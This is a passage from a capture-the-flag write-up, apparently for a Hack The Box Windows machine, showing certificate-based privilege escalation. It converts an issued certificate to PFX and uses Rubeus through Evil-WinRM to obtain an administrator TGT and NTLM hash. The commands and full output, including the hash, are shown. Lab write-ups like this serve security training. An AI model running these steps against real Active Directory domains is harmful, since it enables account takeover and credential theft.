 Now that we have obtained the certificate, we need to copy both the **RSA PRIVATE KEY** and the **BEGIN CERTIFICATE** sections together into a single file named `cert.pem`. This file will contain our private key and the issued certificate, allowing us to authenticate using it.

Once the file is created, we will use the command provided by Certify.exe to leverage the certificate for authentication.

````powershell
❯ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
````
### Using Rubeus.exe
---
Now, we are going to use **Rubeus.exe**, a powerful tool for interacting with Kerberos tickets in Windows environments. In this context, we will use it to request a **Ticket Granting Ticket (TGT)** using the certificate we obtained and in this case we also get the hash NTLM. Download from <a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Rubeus.exe" target="_blank">here</a>

````powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: Ask TGT

[*] Got domain: sequel.htb
[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::a489:5c68:a784:73c5%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      (TGT)

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  administrator (NT_PRINCIPAL)
  UserRealm                :  SEQUEL.HTB
  StartTime                :  2/2/2025 10:45:12 PM
  EndTime                  :  2/3/2025 8:45:12 AM
  RenewTill                :  2/9/2025 10:45:12 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Zt1aX75icVBQvxpCT0hhKA==
  ASREP (key)              :  D6C69768ECDAAEEAEDD85F03887103A6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
````
